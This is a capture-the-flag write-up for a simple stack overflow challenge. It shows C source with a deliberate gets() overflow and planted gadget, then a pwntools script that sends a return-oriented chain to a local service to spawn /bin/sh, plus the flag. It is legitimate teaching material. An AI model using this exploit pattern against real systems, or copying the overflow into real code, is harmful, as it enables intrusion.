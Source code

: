 `Binary`
This challenge was meant to be a somewhat simple binary exploitation challenge so that people could have a go at getting some nice points in a category you might not have done before!
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -fno-stack-protector return.c -no-pie -o return

int a,b,c,d,e,f = 0;
char* shell = "/marius";

void gadget() {
    asm volatile (
        "popq %%rdi \n\t"
        "ret \n\t"
        :
        :
        : "rdi"
    );
}

void one(int* val) {
    *val = 1;
}
void two(int* val) {
    *val = 2;
}
void three(int* val) {
    *val = 3;
}
void four(int* val) {
    *val = 4;
}
void five(int* val) {
    *val = 5;
}
void six(int* val) {
    *val = 6;
}
void set_shell() {
    shell = "/bin/sh";
    if (a != 1 && b != 2 && c != 3 &&
        d != 4 && e != 5 && f != 6) {
        printf("Sorry!\n");
        exit(-1);
    }
}

void run(char* cmd) {
    system(cmd);
}

int main() {
    char overflowable[27];

    printf("Welcome to PWN!\n");
    printf("Now jump around and get a shell!\n");

    gets(overflowable);
}
```
Reading the code a plan comes to mind. We want to call `run("/bin/sh")`. We look at `set_shell()`, and it seems like we need to make a = 1, b = 2, .. and so on. To do this we should probably do something like:

1. Call one(a);
2. Call two(b);

This will work, and is a valid solution. However! The simpler way is realizing that `/bin/sh` will be put in the `.bss` section, and thus we have the address. The idea here is:
```
POP RDI + address of /bin/sh
RUN
```
And you win!
```python
#!/usr/bin/env python3
from pwn import *
import ctypes

io = remote("127.0.0.1", 1341)

def pwn():
    pop_rdi = 0x4005fa
    ret = 0x4005fb
    binsh = 0x4007d0
    run = 0x4006f8

    io.sendline(b"A"*0x28 + p64(ret) +  p64(pop_rdi) + p64(binsh) + p64(run))
    io.interactive()

if __name__ == "__main__":
    pwn()
```
We have the extra ret because of the stack needing to be 16-byte aligned. (https://stackoverflow.com/questions/67243284/why-movaps-causes-segmentation-fault)

Flag:
`TDCNET{you_d0nt_n33d_t0_s3t_4bcd3f_wh3n_n0_p1E!!}`
